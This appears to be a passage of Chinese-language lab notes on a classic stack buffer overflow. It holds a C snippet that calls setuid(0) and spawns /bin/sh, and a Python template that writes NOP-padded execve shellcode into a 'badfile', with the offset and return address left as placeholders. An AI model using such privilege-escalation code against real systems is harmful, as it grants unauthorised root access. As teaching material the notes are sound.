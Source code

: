 通过exploit，可以得到`#`，但真实user id没有变(有效的user id是root)

```shell
# id
uid=(500) euid=0(root)
```

许多命令的行为会因此发生变化，因为发现真实user id不是root，所以运行以下程序将真实user id改为root

```c
void main()
{
	setuid(0); system("/bin/sh");
}
```

Python版exploit

```python
#!/usr/bin/python3
import sys

shellcode= (
	"\x31\xc0" # xorl %eax,%eax
	"\x50" # pushl %eax
	"\x68""//sh" # pushl $0x68732f2f
	"\x68""/bin" # pushl $0x6e69622f
	"\x89\xe3" # movl %esp,%ebx
	"\x50" # pushl %eax
	"\x53" # pushl %ebx
	"\x89\xe1" # movl %esp,%ecx
	"\x99" # cdq
	"\xb0\x0b" # movb $0x0b,%al
	"\xcd\x80" # int $0x80
	"\x00"
	).encode(’latin-1’)

# Fill the content with NOP’s
content = bytearray(0x90 for i in range(517))
#########################################################################
# Replace 0 with the correct offset value
D = 0
# Fill the return address field with the address of the shellcode
# Replace 0xFF with the correct value
content[D+0] = 0xFF # fill in the 1st byte (least significant byte)
content[D+1] = 0xFF # fill in the 2nd byte
content[D+2] = 0xFF # fill in the 3rd byte
content[D+3] = 0xFF # fill in the 4th byte (most significant byte)
#########################################################################
# Put the shellcode at the end
start = 517 - len(shellcode)
content[start:] = shellcode
# Write the content to badfile
file = open("badfile", "wb")
file.write(content)
file.close()
```
